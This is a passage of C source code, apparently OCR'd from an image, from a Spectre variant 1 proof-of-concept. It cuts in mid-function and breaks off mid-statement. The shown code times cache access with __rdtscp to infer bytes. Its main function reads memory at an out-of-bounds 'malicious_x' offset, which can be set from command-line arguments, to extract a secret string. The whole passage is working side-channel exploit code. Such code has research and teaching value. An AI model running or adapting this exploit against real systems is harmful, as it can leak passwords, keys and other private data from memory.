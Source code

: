 ```c
		}

		/* Time reads. Order is lightly mixed up to prevent stride prediction */
		for (i = 0; i < 256; i++)
		{
			mix_i = ((i * 167) + 13) & 255;
			addr = &array2[mix_i * 512];
			time1 = __rdtscp(&junk); /* READ TIMER */
			junk = *addr; /* MEMORY ACCESS TO TIME */
			time2 = __rdtscp(&junk) - time1; /* READ TIMER & COMPUTE ELAPSED TIME */
			if (time2 <= CACHE_HIT_THRESHOLD && mix_i != array1[tries % array1_size])
				results[mix_i]++; /* cache hit - add +1 to score for this value */
		}

		/* Locate highest & second-highest results results tallies in j/k */
		j = k = -1;
		for (i = 0; i < 256; i++)
		{
			if (j < 0 || results[i] >= results[j])
			{
				k = j;
				j = i;
			}
			else if (k < 0 || results[i] >= results[k])
			{
				k = i;
			}
		}
		if (results[j] >= (2 * results[k] + 5) || (results[j] == 2 && results[k] == 0))
			break; /* Clear success if best is > 2*runner-up + 5 or 2/0) */
	}
	results[0] ^= junk; /* use junk so code above won't get optimized out*/
	value[0] = (uint8_t)j;
	score[0] = results[j];
	value[1] = (uint8_t)k;
	score[1] = results[k];
}

int main(int argc, const char* * argv)
{
	printf("Putting '%s' in memory, address %p\n", secret, (void *)(secret));
	size_t malicious_x = (size_t)(secret - (char *)array1); /* default for malicious_x */
	int score[2], len = strlen(secret);
	uint8_t value[2];

	for (size_t i = 0; i < sizeof(array2); i++)
		array2[i] = 1; /* write to array2 so in RAM not copy-on-write zero pages */
	if (argc == 3)
	{
		sscanf_s(argv[1], "%p", (void * *)(&malicious_x));
		malicious_x -= (size_t)array1; /* Convert input value into a pointer */
		sscanf_s(argv[2], "%d", &len);
		printf("Trying malicious_x = %p, len = %d\n", (void *)malicious_x, len);
	}

	printf("Reading %d bytes:\n", len);
	while (--len >= 0)
	{
		printf("Reading at malicious_x = %p... ", (void *)malicious_x);
		readMemoryByte(malicious_x++, value, score);
		printf("%s: ", (score[0] >= 2 * score[1] ? "Success" : "Unclear"));
		printf("0x%02X='%c' score=%d ", value[0],
		       (value[0] > 31 && value[0] < 127 ? value[0] : '?'), score[0]);
```